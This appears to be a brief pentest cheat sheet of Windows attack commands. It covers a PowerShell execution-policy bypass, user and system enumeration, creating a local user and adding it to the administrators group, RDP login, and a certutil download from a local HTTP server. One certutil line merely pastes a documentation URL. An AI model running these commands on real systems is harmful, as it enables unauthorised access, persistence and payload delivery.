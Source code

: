 #### 1. Powershell
    . Bypass ExecutionPolicy (cannot be loaded because running scripts is disabled on this system)

    ```
    powershell -ep bypass
    ```

#### 2. CMD
    ```powershell
    whoami

    systeminfo

    net user

    net user username password /add <create new username with password>

    net localgroup administrators user /add <add user to administrator group>

    net localgroup administrators <list administrators>

    wmic useraccount get name,sid

    cd $env:USERPROFILE/DESKTOP

    certutil.exe https://lolbas-project.github.io/lolbas/Binaries/Certutil/
    ```

    ```
    xfreerdp /u:username /v:ip_address

    certutil.exe -urlcache  -f http://192.168.1.1:8000/filename outputfilename
    ```  
